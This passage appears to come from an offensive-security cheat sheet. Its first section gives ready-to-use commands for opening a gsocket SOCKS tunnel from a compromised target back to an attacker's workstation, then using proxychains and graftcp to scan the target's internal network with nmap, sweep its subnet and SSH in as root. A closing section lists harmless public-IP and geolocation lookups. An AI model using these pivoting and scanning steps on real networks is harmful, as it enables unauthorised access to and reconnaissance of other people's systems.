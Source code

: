 <a id="scan-proxy"></a>
**3.iv. Use any tool via Socks Proxy**

### Create a tunnel from the target to your workstation using gsocket:
On the target's network:
```sh
## Create a SOCKS proxy into the target's network.
## Use gs-netcat but ssh -D would work as well.
gs-netcat -l -S
```

On your workstation:
```sh
## Create a gsocket tunnel into the target's network:
gs-netcat -p 1080
```

### Using ProxyChain:
```sh
## Use ProxyChain to access any host on the target's network: 
echo -e "[ProxyList]\nsocks5 127.0.0.1 1080" >pc.conf
proxychains -f pc.conf -q curl ipinfo.io
## Scan the router at 192.168.1.1
proxychains -f pc.conf -q nmap -n -Pn -sV -F --open 192.168.1.1
## Start 10 nmaps in parallel:
seq 1 254 | xargs -P10 -I{} proxychains -f pc.conf -q nmap -n -Pn -sV -F --open 192.168.1.{} 
```

### Using GrafTCP:
```sh
## Use graftcp to access any host on the target's network:
(graftcp-local -select_proxy_mode only_socks5 &)
graftcp curl ipinfo.io
graftcp ssh root@192.168.1.1
graftcp nmap -n -Pn -sV -F --open 19.168.1.1
```

---
<a id="your-ip"></a>
**3.v. Find your public IP address**

```sh
curl -s wtfismyip.com/json | jq
curl ifconfig.me
dig +short myip.opendns.com @resolver1.opendns.com
host myip.opendns.com resolver1.opendns.com
```

Get geolocation information about any IP address:

```sh
curl https://ipinfo.io/8.8.8.8 | jq
curl http://ip-api.com/8.8.8.8
curl https://cli.fyi/8.8.8.8
```
